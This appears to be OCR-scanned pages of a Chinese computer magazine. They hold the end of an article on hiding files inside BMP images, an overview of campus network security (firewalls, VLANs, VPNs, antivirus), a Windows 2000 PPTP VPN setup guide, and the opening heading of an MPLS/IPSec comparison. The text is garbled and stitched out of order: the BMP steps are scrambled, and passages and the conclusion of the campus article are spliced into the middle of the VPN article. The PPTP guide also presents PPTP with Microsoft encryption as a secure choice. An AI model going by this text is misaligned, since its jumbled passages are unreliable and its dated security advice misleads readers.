
保存文件对话框。如图4所示。此时，为文件命名，点“确定”即完成对文件的恢复。

- 2. 选择bmp文件后，点“确定”，随即出现选择待加密文件的选择框。如图2所示。


- 3. 选择加密文件后，如无异常错误，则会弹出一消息框，提示挂接成功。如图3所示。

- 4. 当要恢复已挂接的文件时，执行程序，选择源bmp母体文件，并点“确定”。此时，程序会检测到bmp文件内挂接有其他文件，而弹出

本文的例程只是简单地对文件进行了挂接，在实际编程中，各位可自行选择算法，对文件进行加密挂接。这样，结合自己的加密算法，第三方如想破解，更是难上加难!

# 校园网中网络安全技术的应用

文/Phoenix



在现今社会，随着网络的普及和发展，越来越多的内部网和校园网都接入了 Internet，校园网络作为学校重要的基础设施，担当着学校教学、科研、管理和对外交流等许多角色，校园网安全状况直接影响着学校的教学活动。在校园网络建成的初期，校园网的安全问题可能还不突出，随着技术应用的深入，校园网上各种数据会急剧增加，各种各样的安全问题开始困扰网络管理人员，不可忽视的安全问题也随之摆在我们面前。如何保证校园网不被攻击和破坏，已经成为学校需要解决的重大问题，也是校园网络管理的重要任务。

## 一、网络安全技术的表现形式及其应用

### 1. 网络安全技术的表现形式

网络安全技术发展到今天，其发展所表现的形式也是多种多样的，如快速传播和扩散包括病毒在内的各种有害信息，一些信息设备厂商在商用硬件或软件中的 Bug，给网络与信息安全留下隐患，Hacker们别有用心者有计划地攻击并窃取政治、经济、国防、商业机密，敌对势力对国防、通信、电力、金融、交通等关键性网络发动摧毁性攻击以及实施伪造、篡改、拒绝服务攻击、行为否认、非授权访问等。另外，我们的安全意识不强、安全技术落后也都造成安全隐患。网络安全技术的几个大问题不容忽视。

- (1) 数据的安全
数据的安全主要是保证重要的数据和信息在传输过程中不丢失、不被修改、不被窃取，以防止Hacker们利用。

- (2) 不良信息过滤
在接入 Internet 后，有关色情、暴力、邪教内容的网站泛滥。这些有毒的信息违反人类的道德标准和有关法律法规，我们应阻止该类信息在网络中传输。

- (3) 结构上的安全
结构安全是网络安全中很重要的一部分，我们在设计和保障网络规划合理性后，要随着使用过程中出现的问题不断调整和改进，保证网络有较好的弹性和服务质量。

- (4) 非法访问的安全
我们要拒绝来自外部和内部的非法访问，保护网络不被非法修改和恶意攻击。

- (5) 病毒危害的安全
通过网络传播的病毒无论是在传播速度、破坏性和传播范围等方面都是单机病毒所不能比拟的，特别是在 Internet 上。因此，我们要防止病毒的入侵和传播。

- (6) 盗取口令和入侵的安全
为了管理上的方便，密码是用户根据自己的应用范围、分配的权限设定的。当有人用不正常的手段窃取别人的口令，就会造成混乱。

> 注：网络的安全问题也有自己的特点，以上的表现形式只是从不同角度对网络安全作出说明，实际上它们是有交叉点的。

### 2. 网络安全技术的应用

经过多年的发展，网络安全技术现在已经有很多种比较成熟。主要的应用，即较成熟的技术是：

- (1) 网络入侵检测(IDS)技术；
- (2) 包过滤路由技术；
- (3) 防火墙技术；
- (4) 病毒防范技术；
- (5) 数据备份及恢复技术；
- (6) VPN技术。

注：网络技术应用针对不同的方面，我们将各技术综合使用，以加强网络的安全。

## 二、校园网中的安全技术应用

校园网具有访问方式多样、用户群庞大、网络行为突发性较高等特点。网络的安全问题需要从网络规划设计阶段就仔细考虑，并在实际运行中严格管理。为保证校园网络的安全性，我们在校园网中运用过滤器和防火墙、虚拟局域网(VLAN)、虚拟专用网(VPN)等技术。

### 1. 过滤器和防火墙技术的应用

过滤器技术可以屏蔽不良的网站，对网上色情、暴力和邪教等内容有强大的堵截功能。防火墙技术包含了动态的封包过滤、应用代理服务、用户认证、网络地址转换、IP防假冒、预警模块、日志及计费分析等功能，可以有效地将内部网与外部网隔离开来，保护校园网络不受未经授权的第三方侵入。防火墙是非常有效的网络安全模型，它防止来自 Internet 的危险传播到内部网络，它主要实现：

- (1) 限定人们从一个特别控制的点进入；
- (2) 防止侵袭者接近你的其他防御措施；
- (3) 限定人们从一个控制的点离开。

它常常被安置在受保护的内部网络连接到 Internet 的点上，将内部网络与 Internet 隔离开。所有来自 Internet 的传输信息或从内部网络发出的传输信息都要穿过防火墙，因此，防火墙可以分析这些传输信息，通过检查、筛选、过滤和屏蔽信息流中的有害服务，防止对计算机系统进行蓄意破坏，以确保它们符合节点设定的安全策略。

#### (1) 包过滤防火墙
包过滤防火墙安装于路由器上，对数据包进行检查。优点是简单、方便、速度快；缺点是缺乏日志、审计信息和用户认证机制。

#### (2) 代理服务器防火墙
代理服务器防火墙是在主机上运行代理服务，可对特定的应用层进行服务，其核心是运行于防火墙主机上的服务器进程。

#### (3) 混合型防火墙
混合型防火墙是把代理和包过滤等功能结合在一起，形成新的防火墙。所用主机称为堡垒主机，负责代理服务。

#### (4) 电路层网关
电路层网关在网络的传输层上实施访问策略，是在内、外网络主机之间建立一个虚拟电路进行通信，相当于在防火墙上直接开了个口子进行传输。缺点是不像应用层防火墙那样能严密控制应用层的信息。

#### (5) 应用级网关
应用级网关使用专用软件转发和过滤特定的应用服务。如 TELNET、FTP 服务，这是一种代理服务，适合于应用层，有一个高层的应用网关做代理器，通常有专门的硬件来完成。

#### (6) 自适应代理技术
自适应代理技术是最新的防火墙技术，在一定程度上反映了防火墙目前的发展动态。该技术可以根据用户定义的策略，动态适应传送过程的分组流量。如果安全要求较高，则安全检查应在应用层完成，以保证代理防火墙的最大安全性。一旦代理明确了会话的所有细节，其后的数据包就可以直接经速度快得多的网络层传送。该技术兼备了代理技术的安全性和其他技术的高效率。在校园中，我们可以从防火墙技术实现动态包过滤，内核透明代理，用户强认证机制，加密技术、智能日志、审计跟踪和实时报警，内容和策略感知能力和内部信息隐蔽技术。

### 2. 虚拟局域网(VLAN)技术的应用

虚拟局域网(Virtual LAN)是与具体的物理网络及地理位置无关的 LAN，在逻辑上等价于 OSI 第二层的广播域。每一个 VLAN 都是一个广播域，通过 VLAN 划分，可以将一个大的广播网段分成多个小的广播域。VLAN 的实质就是广播域控制，它可以不拘泥于机器在网络中的物理位置来划分广播域，允许按照工作站或网段的逻辑归属构成广播域。划分后，原来的较大的 LAN 就从逻辑上形成了多个小的虚拟的 LAN。VLAN 构建方法如下：

#### (1) 基于端口
允许跨越多个交换机的多个端口划分，不同交换机的不同端口可以组成 VLAN。

#### (2) 基于 MAC 地址
由于和 MAC 地址相关，用户的机器可以在 VLAN 范围内不同物理地域自由移动。

#### (3) 基于 IP 地址
类似于前一种，用户的机器可以在 VLAN 范围内不同物理地域自由移动而不用重新配置。

#### (4) 基于 IP 多播组
指以动态建立的多点广播确定 VLAN，每一站点通过对标示不同 VLAN 的广播信息的确认来决定是否加入某一 VLAN。它代表一组 IP 地址。VLAN 由作为代理的设备对 VLAN 进行管理，提供服务。当 IP 多播组要送达多个站点时，就动态建立 VLAN 代理，这个代理与多个 IP 共同组成这个 VLAN，它提供了很高的动态性能，每个成员只是特定时间内特定 IP 多播组的成员，并且 IP 多播组可跨越路由器形成 WAN 连接。

IP 多点广播组定义的 VLAN 具有灵活性和面向应用的特点，可以跨越路由在 WAN 上实现，缺点是 VLAN 的安全性降低。

#### (5) 基于管理策略
这是一种灵活性最好的组成 VLAN 的方法，在网络管理中制定某种策略，使用这种策略向 VLAN 分配端点设备，能够实现多种分配方法，还可以根据需要灵活选择合适的方法，分为基于协议的 VLAN 和基于子网的 VLAN。在校园网中使用 VLAN 容易对 IP 网络进行改动，能够阻止广播风暴，提供额外的安全性。但是，由于只能够在 VLAN 内广播，不同 VLAN 互相不干扰，因此，如果将同一部门划分在一个 VLAN 内，局域网的广播信息不会泄露；如果不同 VLAN 互相通信，必须通过路由。

### 3. 虚拟专用网(VPN)的应用

虚拟专用网(VPN)可以是 VLAN 和远程工作站的集成体，是一个优秀的 Extranet 解决方案，应用隧道技术，通过 ISP、NSP 建立专用隧道，规范点到点连接。它的基本原理就是：第一、采用“隧道”技术在公用网络中形成企业的专用链路；第二、是虚拟的网，没有固定的物理连接，网络只有在需要时才建立。通俗一点说，就是通过加密的 IP 隧道，实现私有包、其他网络协议包在 Internet 上的传输，从而实现位于 WAN 上的不同 LAN 各种协议的虚拟连接，将公众网可靠的性能、丰富的功能与专用网的灵活、高效结合在一起，是介于公众网与专用网之间的一种网。它具有成本低、便于管理、开销小、灵活度高、保密性好的优点。创建 VPN 须使用如下技术：

- (1) 隧道技术；
- (2) 加解密技术；
- (3) 密钥管理技术；
- (4) 使用者与设备身份认证技术。

根据隧道协议不同，可将 VPN 分成第二层和第三层的 VPN。第二层隧道协议的工作方式是先把各种协议数据装入 PPP 协议包中，再装入隧道协议中。这种封装形成的协议靠第二层传输。

### 4. 杀毒软件的应用

选择合适的网络杀毒软件可以有效地防止病毒在校园网上传播。它应具有以下一些特征：

- (1) 能够支持所有的主流平台，并实现软件安装、升级、配置的中央管理；
- (2) 要能保护校园网所有可能的病毒入口，也就是说要支持所有可能用到的 Internet 协议及邮件系统，能适应并且及时跟上瞬息万变的 Internet 时代步伐；
- (3) 具有较强的防护功能，可以对数据、程序提供有效的保护。

以上我们介绍的技术应用于网络安全的不同方面。VLAN 侧重于网络的结构安全和网络的服务质量（QOS），它能增加网络的安全性，能够依照某种安全策略，把一些重要的成员（如数据库、学校办公服务器等）划到相应的 VLAN 中，使网络的相关部分得到保护；网管人员能够以较高的精确度来确定访问网络服务的途径；在交换到桌面的结构中可以形成特别有效的限制非授权访问的屏障。但是 VLAN 本身的安全只侧重于网络结构和服务质量，对数据安全则相对防火墙和 VPN 要弱得多。只有把 VLAN 同其他安全技术（如访问控制）结合起来，才能形成比较好的安全策略。防火墙则在内网和外网之间建立一个过滤检测系统；可以强化网络安全策略，隐藏内网结构，防止内部网络信息外泄；能够通过跟踪、日志等提供比较详细的网络状况的信息。但是防火墙是被动的，不能确保收到的数据包来自正确的发送者和是否被人看过，原始数据是否被更改。对于来源于内部的攻击防范相对较弱，也无法防范人员蓄意破坏；

公司的规模越来越大，各地分公司和出差在外地的员工都要与公司总部随时交换机密的商务信息。如何在你的局域网上实现一个安全、方便、低成本的远程访问服务？如果你的网络是基于 Windows 2000 的，本文则给你提供了一个很好的应用方案。



## 用PPTP协议配置的企业级VPN应用方案（一）

文/Phoenix

Internet 和计算机技术发展到今天，我们一直都是追求安全性第一，所以搭建 VPN 只考虑基于 IPSec 的。IPSec 的优点当然很多，如极高的安全性，灵活的配置，多种加密/签名算法，适用于各种应用场合等。其缺点是由于对高安全性的要求，使得其运算量比较大。也就是说，在大流量通讯时，如果使用 IPSec 来对数据进行加密，则对硬件要求较高。因此，基于 IPSec 的 VPN 适用于对数据传输安全性要求高且拥有足够档次的硬件资源的关键应用、ISP/IDC 应用或大型企业业务应用等，而我们将陆续介绍非 IPSec 的 VPN 技术在各系统下的应用，如利用 L2TP、PPTP、IPIP 等。这些技术相当成熟且稳定，各大操作系统基本上都支持它们，而且对硬件的性能要求较之 IPSec 低，特别适用中小型企业的 VPN 应用需求。本文介绍利用 PPTP 协议在 Windows 系统下的应用方案。

## 一、虚拟专用网络 VPN 的介绍

不能防范数据驱动式的攻击。因此，从网络安全考虑，对重要的数据应该采用加密后传输或采用 VPN 方式。VPN 则应用于安全性要求高的方面，如金融、财务等方面。通过隧道技术和加密技术能够保证数据达较高的安全级别，既适合处于 WAN 中的企业，也适合于校园网。VPN 则相对来说安全性更高一些，数据的重新包装和加密都是自动进行的，而且适应面更广一些。可以用于 WAN 中的防火墙则应用极为广泛，且种类繁多。为了保护内部网络，防火墙是网络安全的首选产品。由于其处于内、外网之间，可以较好地防止外部攻击。其配置方法很多。

VPN 即 Virtual Private Network，也称虚拟专用网，它是企业网在 Internet 等公共网络上的延伸，通过一个私有的通道在公共网络上创建一个安全的私有连接。虚拟专用网通过安全的数据通道将远程用户、公司分支机构、公司业务伙伴等与公司的企业网连接起来，构成一个扩展的公司企业广域网络。在应用的网络环境上是两个物理上分隔开的 LAN，通过一个公用的网络(比如 Internet)进行通信。当然，最重要的是确保两个 LAN 中间进行的任何通信都无法被这个公用网络上任何未经授权的用户窃听。在该网中的主机将不会觉察到公共网络的存在，仿佛所有的主机都处于一个网络之中。

结语：在校园中，网络安全技术是网络安全管理的重要内容。合理的网络配置能够增强网络安全。可以预见到加密技术和 VLAN、VPN、防火墙的合理配置使用，必将使校园网络得到很好的保护。当然，还要对校园用户宣传教育，因为毕竟他们是主要的用户群体，相对来说，他们破坏性更大。对用户进行有关网络安全的法律法规和规章制度的宣传教育是非常有必要的。

## 二、建立虚拟专用网络 VPN 优势

- 1. 降低成本
通过公用网来建立 VPN，可以节省大量的长途通信费用，还可使企业不必投入大量的人力和物力去安装和维护 WAN 和远程访问设备。

- 2. 容易扩展
如果用户想扩大 VPN 的容量和覆盖范围，企业可以与新的 ISP 签约，建立账户；或者与原有的 ISP 重签合约，扩大服务范围。在远程办公室增加 VPN 能力也很简单，只需通过适当的设备配置即可。

- 3. 随意与合作伙伴联网
用户如想与合作伙伴联网，如果没有 VPN，双方的信息技术部门就必须协商如何在双方之间建立租用线路或帧中继线路。有了 VPN 之后，只需双方配置安全连接信息即可。当不需联网时，也很容易拆除连接。

- 4. 完全控制主动权
VPN 使用户可以利用 ISP 的设施和服务，同时又完全掌握着自己网络的控制权。比如，用户可以把拨号访问交给 ISP 去做，由自己负责用户的查验、访问权、网络地址、安全性和网络变化管理等重要工作。

## 三、在 Windows 系统下建立利用基于 PPTP 协议的 VPN 应用

- 1. 什么是 PPTP 协议
PPTP 即 Point-to-Point Tunnel Protocol，是点对点隧道协议。PPTP 是一个第 2 层的协议，一个最流行的 Internet 协议，它提供 PPTP 客户机与 PPTP 服务器之间的加密通信；它允许公司使用专用的“隧道”，通过公共 Internet 来扩展公司的网络。通过 Internet 的数据通信，需要对数据流进行封装和加密，PPTP 就可以实现这两个功能，从而可以通过 Internet 实现多功能通信。也就是说，通过 PPTP 的封装或“隧道”服务，使非 IP 网络可以获得进行 Internet 通信的优点。但是 PPTP 会话不可通过代理器进行，PPTP 是 Microsoft 和其他厂家支持的标准，它是 PPTP 协议的扩展，它可以通过 Internet 建立多协议 VPN，我们可以将 PPP 数据帧封装在 IP 数据包内通过 IP 网络，如 Internet 传送。PPTP 还可用于专用局域网络之间的连接。RFC 草案“点对点隧道协议”对 PPTP 协议进行了说明和介绍。该草案由 PPTP 论坛的成员公司，包括微软、Ascend、3Com 和 ECI 等公司在 1996 年 6 月提交至 IETF。可在 http://www.ietf.org 参看草案的在线拷贝。PPTP 使用一个 TCP 连接对隧道进行维护，使用通用路由封装（GRE）技术把数据封装成 PPP 数据帧通过隧道传送。可以对封装 PPP 帧中的负载数据进行加密或压缩。

- 2. Windows 系统中的 PPTP 协议
我们在利用虚拟专用网络连接就是创建和配置虚拟专用网络的活动。其安全性是如何保证的呢？为模拟点对点连接，需要用路由信息的标识头将数据封装或打包，这个标识头保证数据穿过共享或公共网络到达目的地。要模拟一个专用连接，应将数据进行可靠的加密，即使在共享或公共网络上截获到数据包，如果没有密钥，也是无法辨认的。对数据进行封装和加密的连接才是一个真正的 VPN 连接，而我们说到和利用到的 Windows 2000 系统就比较不错地做到这一点，它支持对等通道协议 PPTP，利用：

- (1) 第二层隧道协议：L2TP—Layer 2 Tunneling Protocol
Cisco 提出的 L2F(Layer 2 Forwarding)是另一个隧道协议。Microsoft、Cisco 和其他一些网络厂商正一起努力使 L2F 与 PPTP 融合，产生一个新的 L2TP 协议。PPTP 和 L2TP 十分相似，因为 L2TP 有一部分就是采用 PPTP 协议，两个协议都允许客户通过其间的网络建立隧道；L2TP 还支持信道认证，但它没有规定信道保护的方法。

- (2) 因特网安全协议 IPSEC—Internet Protocol Security
Microsoft 承诺 Windows 2000 支持 L2TP 和 IPSEC。IPSEC 是由 IETF IP 安全性工作组定义的协议集，它提供了最高级别的 VPN 安全协议。有了 IPSEC，就可以对网络层的每一项内容进行加密，确保网络层之间的安全通信。我们来看一下配置 Windows 系统下的 VPN 的拓扑结构图：



### 3. 在 Windows 系统下安装 PPTP 协议

- (1) 进入 Win 2000 系统中的“控制面板”，从中选择“网络”并双击它，会出现“网络属性”的对话框。再击协议，我们来添加它，从添加中选定“网络协议”，再选择“点对点隧道协议”，单击“确定”出现 PPTP 设置的对话框。选择你需要服务器同时支持的 VPN 数目，单击“确定”后出现安装远程访问，单击“添加”，出现添加 RAS 设备对话框。选择可用的 RAS 设备，单击“确定”，返回安装远程访问对话框。

- (2) 选择一个 VPN 设备，单击“配置”，出现配置端口用法对话框，确保“只能接收”被选中，单击“确定”，返回安装远程访问对话框中。选择一个 VPN 设备，单击“网络”，出现网络配置对话框，在“允许远程客户运行”选项中只保留 TCP/IP 被选中。单击 TCP/IP 选择框旁边的“配置”，出现 RAS 服务器 TCP/IP 配置对话框，在此可进行一些 TCP/IP 方面的配置，如可允许 TCP/IP 客户访问整个网络或仅限于本地计算机，对于客户地址分配，可用 DHCP 或静态地址集等。进行必要的设置后单击“确定”，返回网络配置对话框；加密设置选项中确保选中 Microsoft 加密，并选中“请求数据加密”，使所有连接到 PPTP 服务器的远程客户机进行基于 NT 的身份验证；单击“确定”返回安装远程访问对话框；单击“继续”完成安装，然后重新启动机器。再配置 VPN 用户，进入域用户管理器窗口中，建立新用户，设置其用户名、密码及所属的组等。

### 4. VPN 在 Windows 系统下的连接方式

- (1) 一个远程访问客户（用户单机）通过 VPN 连接远程访问一个专用网时，VPN 服务器为远程客户提供了访问 VPN 服务资源或整个网络资源，VPN 连接的数据起始于远程访问客户计算机。运行在 Windows 2000、Windows NT 4、Win 95/98 计算机可以向运行 Windows 2000 VPN 服务器建立远程访问 VPN 连接，VPN 客户机可以是任何支持点对点协议的客户机，或者是支持采用 IPSec 的 L2TP 协议的客户机。

- (2) 一个路由器可以建立连接两个专用网络的路由器对路由器的 VPN 连接，VPN 服务器提供了路由连接功能。运行 Windows Server 或 Windows NT 4 Server 的计算机，通过路由和远程访问服务 (RAS)，可以与运行 Windows 2000 的 VPN 服务器建立路由器对路由器的 VPN 连接，VPN 客户机也可以是任何非 Microsoft 但是支持 PPTP 或 L2TP 协议的客户机。

### 5. PPTP 协议配置完成后所注意的项目

为了使系统在配置后安全，我们应使 PPTP 服务器位于局域网的防火墙之后，使发往 PPTP 服务器的数据能通过防火墙加以过滤，避免服务器受到 Hacker 的直接攻击。另外，应启用服务器上的 TCP 端口过滤和 PPTP 过滤功能，以增强安全性。在构架网络信息系统的同时，将网络安全一并进行设计，并希望采用具有访问控制、加密、网络层用户身份认证和集中化分级管理等技术来构建真正的安全 VPN 系统。

结语：虚拟专用网 VPN 可以使在 Internet 中的信息交换有安全保障，大多数的 VPN 产品支持 IPSec。最初 VPN 技术被设想为 Internet 节点的连接方式，后来它很快被公认为是一种远端的接入技术。本文说的是非 IPSec 的 VPN 技术利用 PPTP 协议在 Windows 系统下的应用，适用中小型企业的 VPN 应用配置方案。这里也希望 VPN 技术迅速走向成熟。非 IPSec 的 VPN 技术利用 PPTP 协议在其他系统中的应用，我们将在以后的文章中继续讨论。

## MPLS VPN 与 IPSec VPN技术比较
文/ NetEye Support Team

## 一、VPN 技术优势
